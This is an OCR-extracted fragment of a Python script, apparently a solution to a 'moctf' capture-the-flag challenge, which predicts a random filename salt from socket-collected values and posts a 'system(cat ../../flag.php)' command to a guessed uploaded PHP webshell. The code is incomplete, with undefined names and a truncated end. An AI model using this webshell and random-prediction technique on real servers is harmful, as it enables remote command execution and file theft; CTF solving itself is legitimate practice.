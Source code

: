 ```python


def get_rand_list():
    HOST = ''  
    PORT = 8888
    BUFSIZ = 128  
    ADDR = (HOST, PORT)  
    tcpSerSock = socket(AF_INET, SOCK_STREAM)
    tcpSerSock.bind(ADDR)
    tcpSerSock.listen(5)
    rand_num=0
    l=[]
    while True:
        tcpCliSock, addr = tcpSerSock.accept()  
        while True:  
            data = tcpCliSock.recv(BUFSIZ)  
            if not data:  
                break  
            data=data[0:6]
	    print data,l
            for i in data:
                l.append(ord(i)+1-ord('a'))
        rand_num+=1
      	if rand_num==6:
      		break
    tcpCliSock.close()  
    tcpSerSock.close()
    return l

def get_salt(l):
    salt=""
    for i in range(6):
        j=len(l)
        r=(l[j-3]+l[j-31])-1
        if r>26:
        	r-=26
        #print l[j-3],chr(l[j-3]+ord('a')-1),l[j-31],chr(l[j-31]+ord('a')-1),r,chr(r+ord('a')-1)
        l.append(r)
        salt+=chr(r+ord('a')-1)
        #print salt
    return salt
    
def get_flag(salt):
    s=hashlib.sha1('119.23.73.3').hexdigest()
    url1=url+'/uploads/'+s+'/'+'moctf'+salt+'.php'
    data={"a":"system('cat ../../flag.php');echo '666666';"}
    r2=r.post(url1,data=data)
    print salt
    if '404' not in r2.text:
    	print r2.text

get_flag('aaaaaa')
l=get_rand_list()
salt=get_salt(l)
s=0
for i in range(100000):
	s=s+1
print s
words = "10"
o=its.product(words,repeat=6)
for i in o:
	s="".join(i)
	salt2=""
```